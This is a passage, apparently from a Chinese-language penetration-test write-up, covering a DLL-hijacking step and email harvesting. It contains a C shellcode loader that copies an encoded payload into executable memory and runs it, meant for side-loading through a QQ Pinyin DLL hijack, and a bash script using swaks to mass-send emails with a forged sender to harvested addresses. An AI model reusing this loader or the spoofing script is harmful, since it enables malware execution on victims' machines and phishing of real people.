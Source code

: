 用之前的QQ拼音输入法DLL劫持漏洞，来一次白利用。

```
VOID shdjshjdhsjhdjshdjs() {

		unsigned char buff[] =
		"\xbe\x65\x43\x60\x4a\xdb\xcd\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
		"\xd6\x31\....省略部分.......7\xe7\xc3\x2a\xcd\x23\xb8\x07\x0b\x04\x54\x17"
		"\xc1\x57\x63\x4c\x60\xa7\x7a\xa7\x54\xe7\xc2";

	PVOID p = NULL;
	if ((p = VirtualAlloc(NULL, sizeof(buff), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL) {
		printf("error");
	}

	if (!(CopyMemory(p, buff, sizeof(buff)))) {
		printf("error");
	}

	CODE code = (CODE)p;
	code();
} 
```

参考文章：[https://payloads.online/archivers/2018-06-09/1](https://payloads.online/archivers/2018-06-09/1)

## 0x05 搜集邮箱

在百度文库搜索到来一些：

图就不贴了，打码麻烦。。。

写了一个bash脚本用于发送伪造邮件：

```
for line in `cat mail`
do
	echo "$line"

	sed "s/xx@xx.net/${line}/g" data.eml | swaks --to $line --from xx@smtp2go.com --h-From '=?UTF-8?B?xx?= <xx@xx.xx.cn>' --server mail.smtp2go.com -p 2525 -au USER -ap PASS --data - > /tmp/send.log
done 
```

data.eml是转换出来的邮件正文
